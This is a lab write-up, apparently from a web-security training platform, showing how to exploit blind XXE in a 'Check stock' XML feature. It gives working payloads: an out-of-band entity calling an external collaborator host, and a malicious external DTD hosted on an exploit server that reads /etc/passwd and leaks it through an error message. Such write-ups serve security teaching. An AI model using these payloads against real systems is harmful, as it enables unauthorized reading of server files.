






# Exploiting blind XXE to retrieve data via error messages
# Objective
This lab has a "Check stock" feature that parses XML input but does not display the result.\
To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.\
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format. Moreover application have `Submit feedback` feature. Data from client is send in `Content-Type: multipart/form-data;`.

||
|:--:| 
| *Check stock request* |
||
| *Submit feedback request* |

## Exploitation
### Verificationn of blind out-of-band XXE 
The XML parameter injection (out-of-band request) can be performed using the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://<id>.oastify.com"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

||
|:--:| 
| *XXE injection - out-of-band request* |
||
| *XXE injection - out-of-band request* |

### Data exfiltration via blind XXE using malicious external DTD and error messages
Data exfiltration via blind XXE using malicious external DTD and error messages can be performed using the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://exploit-0a15001304dd16778030982e018300e5.exploit-server.net/malicious.dtd"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

Exploit server configuration:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

||
|:--:| 
| *Exploit server configuration* |
||
| *Blind XXE injection with malicious external DTD and error messages* |
